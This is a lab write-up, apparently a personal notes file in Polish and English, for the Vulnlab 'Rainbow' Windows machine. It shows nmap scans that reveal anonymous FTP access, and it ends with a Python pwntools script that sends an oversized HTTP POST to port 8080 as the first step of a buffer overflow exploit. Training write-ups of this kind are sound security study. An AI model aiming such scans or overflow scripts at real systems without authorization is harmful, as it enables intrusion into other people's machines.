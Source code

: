 # Rainbow
Windows, Medium, create by **xct**

```
sudo nmap -sU -Pn -A -F -v -oA nmaUDP --max-rate 1500 10.10.89.13
nmap -Pn -v -p- --version-all -oA nmapFULL --max-rate 1500 -A 10.10.89.13 
```
```
21/tcp    open  ftp                Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 01-18-22  08:22AM                  258 dev.txt
| 01-18-22  08:30AM                54784 rainbow.exe
| 01-16-22  01:34PM                  479 restart.ps1
|_01-16-22  12:14PM       <DIR>          wwwroot
80/tcp    open  http               Microsoft IIS httpd 10.0
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ssl/ms-wbt-server?
8080/tcp  open  http-proxy
49666/tcp open  msrpc              Microsoft Windows RPC
1 service unrecognized despite returning data. If you know 
```

z 80 portu 0 info z content discovery
- dobra idę na to ftp bo aż krzyczy.

![{35FBD93B-0AC4-4A86-95C2-6B2F92A25DDD}](https://github.com/user-attachments/assets/7002c34d-ce71-45ba-9903-bd3406eaf243)

a write na wwwroot pewnie będzie i ez shell.

jeszcze szybkie czytanie

![{F916A1AE-093C-4EC2-82EF-0532E8B86E65}](https://github.com/user-attachments/assets/a611e4a6-5e1e-433c-a0ae-14b918fae2dd)

![{18583290-F20D-400D-BE7D-F2F1DDDC72C6}](https://github.com/user-attachments/assets/1f31aa72-9a0c-4272-9c12-740a5cd56d53)

oho it isn't wwwroot. So we need check the .exe

![{678539DC-5A7B-4C87-84DD-AAD3B5815521}](https://github.com/user-attachments/assets/bf5131b4-2186-42bd-bfdc-6efbf7140652)

i kurczę to nie jest .net.... może przeanalizuję co tam siedzi w tym ps1 dokładnie.

ech.. ja się męcze, a wystarczy wejść na [https://wiki.vulnlab.com/guidance/medium/rainbow](https://wiki.vulnlab.com/guidance/medium/rainbow), żeby się dowiedzieć, że marnuję czas ;)

![{71E16BFB-AC8C-4016-A141-299122759AEE}](https://github.com/user-attachments/assets/d01c37e3-271a-4141-a44f-03ff30e66b08)

```
#!/usr/bin/python
from pwn import *
from urllib import parse
from time import sleep
from sys import argv,exit
from os import system
  
HOST = b""
PORT = 8080
 
buffer = b"A"*900
content = buffer
payload =  b"POST / HTTP/1.1\r\n"
payload += b"Host: %s\r\n" % HOST
payload += b"Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0\r\n"
payload += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8\r\n"
payload += b"Content-Type: application/x-www-form-urlencoded\r\n"
payload += b"Content-Length: %d\r\n\r\n" % len(content)
payload += content

p = remote(HOST, PORT)
p.send(payload)
p.close()
```
- przypadek w sumie prawie 1:1 jak miałem na oscp swoim.
I went back to the source I used then as well as I use whenever I need to make a BoF [https://tryhackme.com/r/room/bufferoverflowprep](https://tryhackme.com/r/room/bufferoverflowprep)


